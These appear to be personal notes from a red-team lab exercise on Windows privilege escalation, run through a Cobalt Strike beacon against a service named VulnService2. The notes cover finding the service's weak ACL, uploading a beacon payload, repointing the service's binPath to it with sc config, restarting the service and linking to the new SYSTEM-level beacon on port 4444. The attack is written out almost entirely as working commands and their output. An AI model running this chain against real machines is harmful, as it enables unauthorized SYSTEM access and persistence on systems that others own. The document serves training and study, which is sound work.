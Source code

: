 ##### execute-assembly C:\Tools\SharpUp\SharpUp\bin\Release\SharpUp.exe audit ModifiableServices

shows that `VulnService2` is modifiable is supposed to show
```powershell
beacon> execute-assembly C:\Tools\SharpUp\SharpUp\bin\Release\SharpUp.exe audit ModifiableServices

=== Modifiable Services ===

	Service 'VulnService2' (State: Running, StartMode: Auto)
```
the result I was getting
```powershell
[11/07 20:57:27] beacon> execute-assembly C:\Tools\SharpUp\SharpUp\bin\Release\SharpUp.exe audit
[11/07 20:57:28] [*] Tasked beacon to run .NET program: SharpUp.exe audit
[11/07 20:57:28] [+] host called home, sent: 149266 bytes
[11/07 20:57:28] [+] received output:

=== SharpUp: Running Privilege Escalation Checks ===

[*] In medium integrity but user is a local administrator- UAC can be bypassed.

[*] Audit mode: running an additional 15 check(s).
```
in order to see the actual `acl` of the service
```powershell
[11/07 20:58:56] beacon> powershell Get-ServiceAcl -Name VulnService2 | select -expand Access
[11/07 20:58:56] [*] Tasked beacon to run: Get-ServiceAcl -Name VulnService2 | select -expand Access
[11/07 20:58:56] [+] host called home, sent: 437 bytes
[11/07 20:59:01] [+] received output:
#< CLIXML


ServiceRights     : QueryConfig, QueryStatus, EnumerateDependents, Interrogate, UserDefinedControl, ReadControl
AccessControlType : AccessAllowed
IdentityReference : NT AUTHORITY\INTERACTIVE
IsInherited       : False
InheritanceFlags  : None
PropagationFlags  : None

ServiceRights     : QueryConfig, QueryStatus, EnumerateDependents, Interrogate, UserDefinedControl, ReadControl
AccessControlType : AccessAllowed
IdentityReference : NT AUTHORITY\SERVICE
IsInherited       : False
InheritanceFlags  : None
PropagationFlags  : None

																																																														ServiceRights     : ChangeConfig, Start, Stop
																																																														AccessControlType : AccessAllowed
																																																														IdentityReference : NT AUTHORITY\Authenticated Users
																																																														IsInherited       : False
																																																														InheritanceFlags  : None
																																																														PropagationFlags  : None

ServiceRights     : QueryConfig, QueryStatus, EnumerateDependents, Start, Stop, PauseContinue, Interrogate, 
                    UserDefinedControl, ReadControl
AccessControlType : AccessAllowed
IdentityReference : NT AUTHORITY\SYSTEM
IsInherited       : False
InheritanceFlags  : None
PropagationFlags  : None

ServiceRights     : QueryConfig, ChangeConfig, QueryStatus, EnumerateDependents, Start, Stop, PauseContinue, 
                    Interrogate, UserDefinedControl, Delete, ReadControl, WriteDac, WriteOwner
AccessControlType : AccessAllowed
IdentityReference : BUILTIN\Administrators
IsInherited       : False
InheritanceFlags  : None
PropagationFlags  : None

```
the results show that anyone in the `NT AUTHORITY\Authenticated Users` group is allowed to `ChangeConfig, Start, Stop`

identifying the location of `VulnService2`
```powershell
[11/07 21:10:25] beacon> run sc qc VulnService2
[11/07 21:10:25] [*] Tasked beacon to run: sc qc VulnService2
[11/07 21:10:25] [+] host called home, sent: 48 bytes
[11/07 21:10:25] [+] received output:
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: VulnService2
        TYPE               : 10  WIN32_OWN_PROCESS 
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\Program Files\Vulnerable Services\Service 2.exe"
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : VulnService2
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem
```
making a `C:\Temp` directory
```powershell
beacon> mkdir C:\Temp
beacon> cd C:\Temp
```
uploading  service executable `c:\Payloads\tcp-local_x64.svc.exe`
```bash
[11/07 22:18:55] beacon> upload C:\Payloads\tcp-localonly_x64.svc.exe
[11/07 22:18:56] [*] Tasked beacon to upload C:\Payloads\tcp-localonly_x64.svc.exe as tcp-localonly_x64.svc.exe
[11/07 22:18:56] [+] host called home, sent: 329777 bytes
```
ensuring that the file was uploaded with `ls`
```bash
[11/07 22:19:18] beacon> ls
[11/07 22:19:18] [*] Tasked beacon to list files in .
[11/07 22:19:18] [+] host called home, sent: 31 bytes
[11/07 22:19:18] [*] Listing: c:\temp\

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 322kb    fil     11/07/2023 22:18:57   tcp-localonly_x64.svc.exe
```
changing the binary path of `VulnService2` by utilizing the `binPath= `
*Note that the `space` after the = in `binPath` is intentional and required for syntax*
```powershell
[11/07 22:19:28] beacon> run sc config VulnService2 binPath= C:\Temp\tcp-localonly_x64.svc.exe
[11/07 22:19:28] [*] Tasked beacon to run: sc config VulnService2 binPath= C:\Temp\tcp-localonly_x64.svc.exe
[11/07 22:19:28] [+] host called home, sent: 95 bytes
[11/07 22:19:28] [+] received output:
[SC] ChangeServiceConfig SUCCESS
```
checking status of `VulnService2` to ensure that the `BINARY_PATH_NAME` was actually changed.
- the path was correctly updated to the new beacon.

stopping the `VulnService2`
```bash
[11/07 22:19:53] beacon> run sc stop VulnService2
[11/07 22:19:53] [*] Tasked beacon to run: sc stop VulnService2
[11/07 22:19:53] [+] host called home, sent: 50 bytes
[11/07 22:19:54] [+] received output:

SERVICE_NAME: VulnService2 
        TYPE               : 10  WIN32_OWN_PROCESS  
        STATE              : 3  STOP_PENDING 
                                (STOPPABLE, NOT_PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
```
starting the `VulnService2`
```powershell
[11/07 22:21:29] beacon> run sc start VulnService2
[11/07 22:21:29] [*] Tasked beacon to run: sc start VulnService2
[11/07 22:21:29] [+] host called home, sent: 51 bytes
[11/07 22:21:29] [+] received output:

SERVICE_NAME: VulnService2 
        TYPE               : 10  WIN32_OWN_PROCESS  
        STATE              : 2  START_PENDING 
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 4480
        FLAGS              : 
```
checking to ensure port `4444` is open
```powershell
[11/07 22:21:50] beacon> shell netstat -anp tcp
[11/07 22:21:50] [*] Tasked beacon to run: netstat -anp tcp
[11/07 22:21:51] [+] host called home, sent: 59 bytes
[11/07 22:21:51] [+] received output:

Active Connections

  Proto  Local Address          Foreign Address        State
  TCP    127.0.0.1:4444         0.0.0.0:0              LISTENING
  TCP    127.0.0.1:4444         127.0.0.1:62122        ESTABLISHED
```
connecting to `4444`
```powershell
[11/07 22:22:00] beacon> connect localhost 4444
[11/07 22:22:00] [*] Tasked to connect to localhost:4444
[11/07 22:22:00] [+] host called home, sent: 32 bytes
[11/07 22:22:00] [+] established link to child beacon: 10.10.123.102
```
seeing that two seperate connections to `4444` are working
```
[11/07 22:22:09] beacon> shell netstat -anp tcp
[11/07 22:22:09] [*] Tasked beacon to run: netstat -anp tcp
[11/07 22:22:09] [+] host called home, sent: 71 bytes
[11/07 22:22:09] [+] received output:

Active Connections

  Proto  Local Address          Foreign Address        State
  TCP    127.0.0.1:4444         127.0.0.1:58146        ESTABLISHED
  TCP    127.0.0.1:4444         127.0.0.1:62122        ESTABLISHED
```
![[Pasted image 20231107173244.png]]